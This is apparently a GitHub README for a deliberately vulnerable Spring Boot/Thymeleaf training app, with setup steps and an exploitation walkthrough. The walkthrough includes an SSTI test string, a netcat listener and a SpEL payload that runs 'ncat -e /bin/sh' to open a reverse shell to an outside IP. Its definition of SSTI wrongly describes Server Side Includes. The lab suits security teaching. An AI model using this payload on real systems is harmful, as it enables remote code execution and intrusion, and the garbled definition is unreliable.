


# Java-Thymeleaf-SSTI


simple spring boot app that contains an example of a SSTI vulnerability and its main goal is to describe how a malicious user could exploit it on this purposefully vulnerable app.

## What is Server Side Template Injection ?

SSIs are directives present on Web applications used to feed an HTML page with dynamic contents. They are similar to CGIs, except that SSIs are used to execute some actions before the current page is loaded or while the page is being visualized. In order to do so, the web server analyzes SSI before supplying the page to the user.

Owasp : https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection


## Setup

You can start the application with one of these methods
1. Go into the src directory and run these commands :
```
1- ./gradlew build

2- ./gradlew bootRun
```

2. Or simply you can go into the docker directory and run following command:
```
docker-compose up -d
```

3. Or directly run it with docker like this:
```
docker run --name ssti -d -p 8080:8080 siyavash/thymeleaf-ssti
```

Now visit [localhost:8080](http://localhost:8080)


## How To Exploit
After visiting [localhost:8080](http://localhost:8080) you must see a page like this:



to test SSTI simply type something like ${7*7} in the input and click join. it will be processed on server and you will see the result which is 49



Because the application is vulnerable to SSTI we try to achive RCE on the machine. to do this follow these steps:

1. Open a terminal and run following netcat command:
```
nc -v -l 9999
```

2. Now we have netcat listening on port 9999 for any incoming connection , we are going to inject or payload
3. Instead of e-mail paste following payload in the input. remember to replace your IP address with the current one
```
(${T(java.lang.Runtime).getRuntime().exec('ncat -e /bin/sh 192.168.0.192 9999')})
```

4. Here is a video getting reverse shell.

https://user-images.githubusercontent.com/9821568/155853142-8e2a37cc-f16e-4419-bedc-74a3c340e905.mp4


## Fix Hint

https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
   
## Twitter & Facebook Contributor :
   
 https://www.linkedin.com/in/mohammad-hussein-namadi-775baa131/
 
 https://twitter.com/siavashvafshar
    
## Fix 

We encourage you to contribute to Project and Fix Codes

If you want to pull request please follow this :

CONTRIBUTION.md

## Sample Report
